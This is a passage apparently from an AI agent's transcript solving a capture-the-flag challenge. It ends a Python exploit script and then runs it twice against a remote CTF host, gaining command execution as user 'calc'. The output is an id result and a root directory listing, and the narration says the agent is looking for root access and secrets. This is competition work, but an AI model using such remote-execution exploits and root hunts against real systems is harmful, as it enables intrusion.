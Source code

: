 ```bash
            print(decoded_response)

    except socket.timeout:
        print(f"[-] Connection timed out to {HOST}:{PORT}")
    except socket.error as e:
        print(f"[-] Socket error: {e}")
    except Exception as e:
        print(f"[-] An error occurred: {e}")

if __name__ == "__main__":
    main()
```

Starting to analyze the system for potential root access methods.

Analyzing the system to understand user context and potential root access methods.
```bash
ubuntu@sandbox:~ $ cd /home/ubuntu && python3 /home/ubuntu/exploit_user.py
[*] Connecting to exp.cybergame.sk:7002
[*] Connected.
[*] Sending payload...
[*] Payload sent.
[*] Receiving response...
[*] Response received:
>> uid=1000(calc) gid=1000(calc) groups=1000(calc)
0
```
Exploring the file system structure to locate potential root user secrets.
```bash
ubuntu@sandbox:~ $ cd /home/ubuntu && python3 /home/ubuntu/exploit_user.py
[*] Connecting to exp.cybergame.sk:7002
[*] Connected.
[*] Sending payload...
[*] Payload sent.
[*] Receiving response...
[*] Response received:
>> total 68
drwxr-xr-x   1 root root 4096 Apr 27 18:34 .
drwxr-xr-x   1 root root 4096 Apr 27 18:34 ..
-rwxr-xr-x   1 root root    0 Apr 27 18:34 .dockerenv
lrwxrwxrwx   1 root root    7 May 13  2024 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Jan 28  2024 boot
drwxr-xr-x   5 root root  340 Apr 27 18:34 dev
drwxr-xr-x   1 root root 4096 Apr 27 18:34 etc
drwxr-xr-x   1 root root 4096 Mar 31 20:01 home
lrwxrwxrwx   1 root root    7 May 13  2024 lib -> usr/lib
lrwxrwxrwx   1 root root    9 May 13  2024 lib64 -> usr/lib64
drwxr-xr-x   2 root root 4096 May 13  2024 media
drwxr-xr-x   2 root root 4096 May 13  2024 mnt
drwxr-xr-x   2 root root 4096 May 13  2024 opt
dr-xr-xr-x 304 root root    0 Apr 27 18:34 proc
drwx------   1 root root 4096 Mar 31 20:01 root
drwxr-xr-x   1 root root 4096 Apr 27 18:34 run
lrwxrwxrwx   1 root root    8 May 13  2024 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 May 13  2024 srv
dr-xr-xr-x  13 root root    0 Apr 27 16:29 sys
drwxrwxrwt   1 root root 4096 Mar 31 20:00 tmp
drwxr-xr-x   1 root root 4096 May 13  2024 usr
drwxr-xr-x   1 root root 4096 May 13  2024 var
0
```
